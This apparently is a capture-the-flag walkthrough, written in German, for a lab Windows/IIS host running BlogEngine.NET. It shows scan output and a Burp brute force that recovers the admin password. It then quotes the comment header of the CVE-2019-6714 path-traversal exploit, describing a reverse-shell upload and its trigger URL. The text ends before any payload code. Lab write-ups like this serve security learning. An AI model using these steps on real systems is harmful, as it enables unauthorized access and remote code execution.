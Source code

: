 # Ziel: 10.10.207.184

# Scanning 

## Nmap 

```
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements

3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2025-10-07T12:28:48+00:00; -1s from scanner time.


MAC Address: 02:C8:10:B2:62:29 (Unknown)

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
## Nikto 

```
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.207.184
+ Target Hostname:    10.10.207.184
+ Target Port:        80
+ Start Time:         2025-10-07 13:29:17 (GMT1)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/8.5
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
+ Uncommon header 'content-style-type' found, with contents: text/css
+ Uncommon header 'content-script-type' found, with contents: text/javascript
+ Server leaks inodes via ETags, header found with file /robots.txt, fields: 0x3d1dc2fc254ad51:0 
+ File/dir '/search/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ File/dir '/search.aspx' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ File/dir '/archive/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ File/dir '/archive.aspx' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 6 entries which should be manually viewed.
+ Server banner has changed from 'Microsoft-IIS/8.5' to 'Microsoft-HTTPAPI/2.0' which may suggest a WAF, load balancer or proxy is in place
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ Uncommon header 'x-aspnetwebpages-version' found, with contents: 3.0
+ OSVDB-3092: /archive/: This might be interesting...
+ OSVDB-3092: /archives/: This might be interesting...
+ 6544 items checked: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2025-10-07 13:29:40 (GMT1) (23 seconds)
---------------------------------------------------------------------------

```

## Walking the site: 
Login Page 
`http://10.10.207.184/Account/login.aspx?ReturnURL=/admin`

-> Vermutlich login name Admin

Brute forcing via Burp Intruder und Sniper attack mode

->  Passwort found 
1qaz2wsx


### FINDINGS
Admin Portal unter 
`http://10.10.207.184/Account/login.aspx?ReturnURL=/admin`

Username: admin
Passwort: 1qaz2wsx

# Initial Access 

Gegeben von zuvor 

Admin Portal unter 
`http://10.10.207.184/Account/login.aspx?ReturnURL=/admin`

Username: admin
Passwort: 1qaz2wsx

Feststellung BlogEngine.NET Version: 3.3.6.0 

## Kontrolle auf Exploits mit searchsploit

root@ip-10-10-226-42:~# searchsploit BlogEngine.NET 3.3.6
--------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                       |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution                                                                                                   | aspx/webapps/46353.cs
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution                                                                                   | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                                                                                                              | aspx/webapps/47035.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution                                                                              | aspx/webapps/47011.py
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                                                                                           | aspx/webapps/47014.py


## Low Hanging Fruit -> Exploiting w Metasploit

-> Keine Resultate 


## Umschauen im Netz um mehr Infos zu den Exploits zu bekommen 

https://www.exploit-db.com/exploits/46353

CVE-2019-6714

Zuerst laden wir uns den Code runter und lesen die Kommentare hier wird die Funktionalität auch schon erklärt
```
```cs
/*
 * CVE-2019-6714
 *
 * Path traversal vulnerability leading to remote code execution.  This 
 * vulnerability affects BlogEngine.NET versions 3.3.6 and below.  This 
 * is caused by an unchecked "theme" parameter that is used to override
 * the default theme for rendering blog pages.  The vulnerable code can 
 * be seen in this file:
 * 
 * /Custom/Controls/PostList.ascx.cs
 *
 * Attack:
 *
 * First, we set the TcpClient address and port within the method below to 
 * our attack host, who has a reverse tcp listener waiting for a connection.
 * Next, we upload this file through the file manager.  In the current (3.3.6)
 * version of BlogEngine, this is done by editing a post and clicking on the 
 * icon that looks like an open file in the toolbar.  Note that this file must
 * be uploaded as PostView.ascx. Once uploaded, the file will be in the
 * /App_Data/files directory off of the document root. The admin page that
 * allows upload is:
 *
 * http://10.10.10.10/admin/app/editor/editpost.cshtml
 *
 *
 * Finally, the vulnerability is triggered by accessing the base URL for the 
 * blog with a theme override specified like so:
 *
 * http://10.10.10.10/?theme=../../App_Data/files
 *
 */
```